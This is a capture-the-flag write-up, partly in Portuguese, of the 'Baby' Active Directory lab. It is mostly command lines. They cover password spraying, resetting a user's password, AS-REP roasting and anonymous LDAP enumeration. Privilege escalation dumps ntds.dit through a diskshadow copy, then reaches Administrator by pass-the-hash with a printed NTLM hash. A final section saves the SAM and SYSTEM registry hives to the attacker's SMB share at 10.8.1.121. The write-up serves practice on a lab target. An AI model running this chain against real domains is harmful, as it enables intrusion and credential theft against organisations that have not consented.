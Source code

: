 Baby
========================

## Enumeration

![qownnotes-media-CfVduq](../../.gitbook/assets/qownnotes-media-CfVduq.png)

![qownnotes-media-DbhlUL](../../.gitbook/assets/qownnotes-media-DbhlUL.png)

SMB

![qownnotes-media-tDhTDj](../../.gitbook/assets/qownnotes-media-tDhTDj.png)

    crackmapexec smb baby.vl -u usernames.txt -p passwords.txt --shares --continue --no-bruteforce

![qownnotes-media-pfvbMV](../../.gitbook/assets/qownnotes-media-pfvbMV.png)

    crackmapexec smb baby.vl -u usernames.txt -p 'BabyStart123!' --shares --continue --no-bruteforce

![qownnotes-media-wezqbz](../../.gitbook/assets/qownnotes-media-wezqbz.png)

    impacket-smbpasswd baby.vl/Caroline.Robinson@babydc.baby.vl -newpass 'P@ssw0rd!'

![qownnotes-media-nhVTnV](../../.gitbook/assets/qownnotes-media-nhVTnV.png)

Caroline.Robinson:P@ssw0rd!

    crackmapexec smb baby.vl -u Caroline.Robinson -p 'P@ssw0rd!' --shares
    
    crackmapexec winrm baby.vl -u Caroline.Robinson -p 'P@ssw0rd!'

![qownnotes-media-FFOtcJ](../../.gitbook/assets/qownnotes-media-FFOtcJ.png)

CONSEGUIMOS SHELL

Kerberos

![qownnotes-media-oFnWQn](../../.gitbook/assets/qownnotes-media-oFnWQn.png)

    impacket-GetNPUsers -request -usersfile usernames.txt baby.vl/ -dc-ip 10.10.96.83

![qownnotes-media-bsjTBa](../../.gitbook/assets/qownnotes-media-bsjTBa.png)

DNS

![qownnotes-media-iljQQe](../../.gitbook/assets/qownnotes-media-iljQQe.png)

LDAP

    ldapsearch -x -H ldap://baby.vl -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName

    ldapsearch -x -H ldap://baby.vl -D '' -w '' -b "DC=baby,DC=vl" | grep userPrincipalName
    
![qownnotes-media-Ugemmm](../../.gitbook/assets/qownnotes-media-Ugemmm.png)

![qownnotes-media-jUfwzb](../../.gitbook/assets/qownnotes-media-jUfwzb.png)

Agora que notei a senha "BabyStart123!"

Caroline.Robinson:BabyStart123!

    cat usernames.txt > passwords.txt
    cat usernames.txt | tr '[:upper:]' '[:lower:]' >> passwords.txt

## PrivEsc


    whoami /priv

![qownnotes-media-viPDya](../../.gitbook/assets/qownnotes-media-viPDya.png)

    cat test.dsh 

```
set context persistent nowriters
add volume c: alias test
create
expose %test% z:
```

    unix2dos test.dsh

Depois disso, fazer o upload desse arquivo para a máquina alvo:

    mkdir c:\temp
    cd c:\temp
    upload test.dsh
    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    download ntds.dit

Depois de baixar o arquivo para a máquina do atacante, basta executarmos o impacket-secretsdump

    impacket-secretsdump -ntds ntds.dit -system system local

![qownnotes-media-UUMZHP](../../.gitbook/assets/qownnotes-media-UUMZHP.png)

    crackmapexec winrm baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"
 
![qownnotes-media-SrXcsj](../../.gitbook/assets/qownnotes-media-SrXcsj.png)

    evil-winrm -i baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"

![qownnotes-media-AizZrF](../../.gitbook/assets/qownnotes-media-AizZrF.png)

## ADD

Vale considerar que o que foi feito de maneira local não funcionou...

    reg save HKLM\SYSTEM \\10.8.1.121\smb\system
    reg save HKLM\SAM \\10.8.1.121\smb\sam
    
    impacket-secretsdump -sam sam -system system local
 
 ![qownnotes-media-SQJbKk](../../.gitbook/assets/qownnotes-media-SQJbKk.png)
 
 ![qownnotes-media-QWpHBK](../../.gitbook/assets/qownnotes-media-QWpHBK.png)